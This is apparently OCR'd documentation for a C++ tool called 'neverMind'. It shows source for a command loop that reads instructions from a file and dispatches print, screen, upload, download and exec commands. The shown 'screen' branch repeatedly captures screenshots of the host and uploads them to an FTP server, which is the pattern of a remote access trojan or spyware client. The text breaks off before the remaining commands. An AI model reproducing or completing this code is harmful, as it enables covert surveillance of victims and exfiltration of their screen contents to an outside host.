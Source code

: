 - `compile(const std::string &file_path)`: this function compiles + executes commands from a file. it reads the file, splits each line into commands, and executes them.

```cpp
void neverMind::compile(const std::string &file_path)
    {
        std::string code = wrapper::read_file(file_path);
        std::stringstream ss_code(code);
        std::string line;
        while (std::getline(ss_code, line))
        {
            try {
                std::vector<std::string> spl_line;
                std::stringstream ss_line(line);
                std::string command;
                while (std::getline(ss_line, command, ' ')) {
                    spl_line.push_back(command);
                }
                execute(spl_line);
            }
            catch (...) {
                continue;
            }
        }
    }
```

- `execute(const std::vector<std::string>& spl_line)`: this function executes the provided commands. it supports several commands like `print`, `screen`, `upload`, `download`, `exec`. each command performs a specific operation and writes the result to the output file.

```cpp
void neverMind::execute(const std::vector<std::string>& spl_line)
{
        try {
            std::string main_cmd = spl_line[0];
            if (main_cmd == "print") {
                if (spl_line.size() < 2) {
                    wrapper::append_file(output_path, "[!] error [!]\n\n");
                    return;
                }
                wrapper::append_file(output_path, "[>] " + spl_line[1] + " [<]\n\n");
            }
            else if (main_cmd == "screen") {
                if (spl_line.size() < 2) {
                    wrapper::append_file(output_path, "[!] error [!]\n\n");
                    return;
                }
                int counter = std::stoi(spl_line[1]);
                if (!ftp_connection.cd("screens")) {
                    ftp_connection.mkdir("screens");
                    ftp_connection.cd("screens");
                }
                for (int i = 0; i < counter; ++i)
                {
                    std::string screenshot_path = wrapper::screenshot(data_path);
                    Sleep(500);
                    ftp_connection.upload_file(screenshot_path, std::filesystem::path(screenshot_path).filename().u8string());
                    Sleep(1000);
                    wrapper::append_file(output_path, "[++] screenshots saved >> " + screenshot_path + " [++]\n\n");
                }
                ftp_connection.cd("../");
            }
```